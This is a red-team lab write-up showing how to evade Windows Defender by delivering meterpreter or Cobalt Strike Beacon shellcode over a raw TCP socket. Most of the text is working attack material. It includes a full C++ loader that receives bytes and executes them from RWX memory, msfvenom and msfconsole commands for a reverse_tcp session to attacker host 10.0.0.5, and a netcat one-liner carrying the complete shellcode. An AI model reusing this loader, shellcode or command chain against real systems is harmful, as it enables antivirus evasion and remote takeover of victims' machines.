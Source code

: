# Bypassing Windows Defender: One TCP Socket Away From Meterpreter and Beacon Sessions

## Context

If you've tried executing an out of the box meterpreter payload on the box with Windows Defender, you know it may get picked up right away as can be seen in the below gif:

![](../../.gitbook/assets/peek-2019-05-07-21-40.gif)

This quick lab shows how I was able to execute the off the shelf meterpreter payload against the latest Windows Defender \(7th of May at the time of writing\) by delivering the shellcode over a TCP socket.

{% hint style="info" %}
**Works with Cobalt Strike Beacon**  
The demo uses metasploit's meterpreter payload, but I have tested this technique with Cobalt Strike beacon and it also bypasses the Windows Defender.
{% endhint %}

## Overview

The technique that allowed me to bypass Windows Defender is simple:

* Victim machine \(10.0.0.7\) opens up a listening TCP socket on on port 443 \(or any other\)
* Socket on the victim machine waits for incoming shellcode
* Attacking machine \(10.0.0.5\) connects to the victim socket and sends the shellcode as binary data
* Victim machine receives the shellcode, allocates executable memory and moves the shellcode there
* Victim machine executes the shellcode received over the network and initiates meterpreter \(or cobalt strike beacon\) second stage download
* Attacking machine serves the stage and catches the shell

## Execution

Let's write, compile a simple PoC C++ program \(see [Code](bypassing-windows-defender-one-tcp-socket-away-from-meterpreter-and-cobalt-strike-beacon.md#code) section\) that will do all of the steps explained in the overview section.

Let's execute it on the victim machine and check if the socket on port 443 has been opened:

{% code title="attacker@victim" %}
```csharp
netstat -nat | findstr /i listen | findstr /i 443
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-05-07-20-45-02.png)

Let's generate a staged meterpreter payload and output it to C format:

{% code title="attacker@kali" %}
```csharp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c > meterpreter.c
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-05-07-20-49-59.png)

Let's setup an msf handler to catch the meterpreter session on the attacking machine:

{% code title="attacker@kali" %}
```csharp
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-05-07-22-23-33.png)

We can now take the shellcode from the C file and echo it out as a binary data, pipe it to the victim machine \(where a TCP socket is listening on 443\) via netcat:

{% code title="attacker@kali" %}
```bash
echo -e "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\x0a\x00\x00\x05\x68\x02\x00\x01\xbb\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5" | nc 10.0.0.7 443
```
{% endcode %}

We are now ready to execute the attack. Below shows all of the above in action:

1. Cmd shell in the middle of the screen opens the TCP socket \(port 443\) on the victim machine
2. Windows Defender below the cmd shell shows the signatures are up to date
3. Top right - msfconsole is waiting and ready to send the second stage from the attacking system
4. Bottom right - attacker sends the shellcode to the victim over the wire via netcat
5. Top right - msfconsole serves the second stage to the victim and establishes the meterpreter session

![](../../.gitbook/assets/peek-2019-05-07-21-34.gif)

## Conclusion

Why this works? I can only speculate. I am a huge fan of Windows Defender and I think it is doing an amazing job at catching evil and I am sure this will be caught very soon.

## Code

```cpp
#include "pch.h"
#include <WinSock2.h>
#include <WS2tcpip.h>
#include <iostream>
#include <Windows.h>
#pragma comment(lib, "ws2_32.lib")

int main()
{
    LPWSADATA wsaData = new WSAData();
    ADDRINFOA *socketHint = new ADDRINFOA();
    ADDRINFOA *addressInfo = new ADDRINFOA();
    SOCKET listenSocket = INVALID_SOCKET;
    SOCKET clientSocket = INVALID_SOCKET;
    CHAR bufferReceivedBytes[4096] = {0};
    INT receivedBytes = 0;
    PCSTR port = "443";

    socketHint->ai_family = AF_INET;
    socketHint->ai_socktype = SOCK_STREAM;
    socketHint->ai_protocol = IPPROTO_TCP;
    socketHint->ai_flags = AI_PASSIVE;

    WSAStartup(MAKEWORD(2, 2), wsaData);
    GetAddrInfoA(NULL, port, socketHint, &addressInfo);

    listenSocket = socket(addressInfo->ai_family, addressInfo->ai_socktype, addressInfo->ai_protocol);
    bind(listenSocket, addressInfo->ai_addr, addressInfo->ai_addrlen);
    listen(listenSocket, SOMAXCONN);
    std::cout << "Listening on TCP port " << port << std::endl;

    clientSocket = accept(listenSocket, NULL, NULL);
    std::cout << "Incoming connection..." << std::endl;

    receivedBytes = recv(clientSocket, bufferReceivedBytes, sizeof(bufferReceivedBytes), NULL);
    if (receivedBytes > 0) {
        std::cout << "Received shellcode bytes " << receivedBytes << std::endl;
    }

    LPVOID shellcode = VirtualAlloc(NULL, receivedBytes, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    std::cout << "Allocated memory for shellocode at: " << shellcode << std::endl;

    memcpy(shellcode, bufferReceivedBytes, sizeof(bufferReceivedBytes));
    std::cout << "Copied shellcode to: " << shellcode << std::endl << "Sending back meterpreter session...";
    ((void(*)()) shellcode)();

    return 0;
}
```

## References

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/ws2tcpip/nf-ws2tcpip-getaddrinfo" caption="" %}

